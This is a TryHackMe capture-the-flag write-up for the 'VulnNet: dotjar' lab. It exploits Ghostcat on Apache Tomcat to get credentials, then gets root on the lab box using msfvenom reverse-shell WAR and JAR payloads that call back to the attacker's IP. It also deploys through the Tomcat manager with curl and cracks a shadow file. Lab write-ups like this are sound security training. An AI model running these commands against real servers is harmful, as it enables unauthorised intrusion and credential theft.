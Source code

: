 ```yaml
---
title: "TryHackMe | VulnNet: dotjar"
layout: post
date: 2023-11-22 19:00
tag: 
- TryHackMe
- Pentesting
- VulnNet
- Linux
- Java
- Ghostcat
- Apache Tomcat
- AJP
image: https://tryhackme-images.s3.amazonaws.com/room-icons/599fe941d59b03cfd775b9db850af119.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "A meduim TryHackMe box, with basic web enumeration and API fuzzing."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Overview

VulnNet dotjar is a java focused machine that is vulnerable to Ghostcat, We used this vulnerability to find some credentials which we used to upload a malicious war file what gives us remote code execution on the webserver. The root part was about creating a java reverse shell which will be executed as root what gives us a root shell.

---

# Nmap

```bash
nmap -A -T4 10.10.203.123
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-24 12:01 +01
Nmap scan report for 10.10.203.123
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http    Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
```

In the nmap scan we see that we have only two open ports (8009 & 8080). The port 8080 has the Apache Tomcat service running, which is an implementation of the Java Servlet which provides a pure Java HTTP web server environment in which Java code can run. And the AJP protocol is running on port 8009 which is used by Tomcat to communicate with the servlet container that sits behind the webserver using TCP connections.

>_Java Servlet_ is a class that extends the capabilities of the servers and responds to the incoming requests.

Here on port 8080, I cannot access the Host Manager portal since I don't have any credentials yet :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124121228.png>)

So I went to see if this version of Tomcat is vulnerable, and yet it is vulnerable to ghostcat vulnerability.
An attacker could exploit this vulnerability to read web application files. In instances where the vulnerable server allows file uploads, an attacker could upload malicious JSP code and trigger this vulnerability to gain RCE.

[https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat](https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat)

The above exploit didn't work for me for some reason, so I used **Metasploit** to exploit this vulnerability :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124122116.png>)

I set the required fields and run the exploit, boom I got valid credentials :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124121942.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124122035.png>)

Now I can login and access the Host Manager portal :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124121906.png>)

I directly thought about uploading a malicious war file and gain a remote shell on the webserver :

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.1.117 LPORT=9999 -f war > shell.war
```

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124124134.png>)

Using curl, I can upload the generated malicious file using the --upload-file option :

```bash
curl -u 'webdev:<REDACTED>' http://10.10.203.123:8080/manager/text/deploy?path=/myrevshell --upload-file shell.war
```

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124124152.png>)

And with the bellow command I can see the uploaded revshell :

```bash
curl -u 'webdev:<REDACTED>' http://10.10.203.123:8080/manager/text/list
```

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124124343.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124124211.png>)

And I got a shell as **web** user :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124124055.png>)

# web -> jdk-admin

While trying to escalate, I found a shadow backup file in the */var/backups* directory, so I downloaded it to my local machine :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124134601.png>)

The shadow file contains hashes of users, I couldn't crack root's hash, only the jdk-admin's hash was crackable : 

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124135021.png>)

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124135111.png>)

And I am the jdk-admin now, I can read the user flag :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124135925.png>)

# PE

Checking the privileges of my current user I found that I can run the java command as root on any jar file :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124135956.png>)

So I directly thought about creating a jar reverse shell and upload it to the machine and then I will get a shell as root :

```bash
msfvenom -p java/shell_reverse_tcp LHOST=10.9.1.117 LPORT=4444 -f jar > exp.jar
```

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124134722.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124140203.png>)

And yes I am root!

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124134739.png>)

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>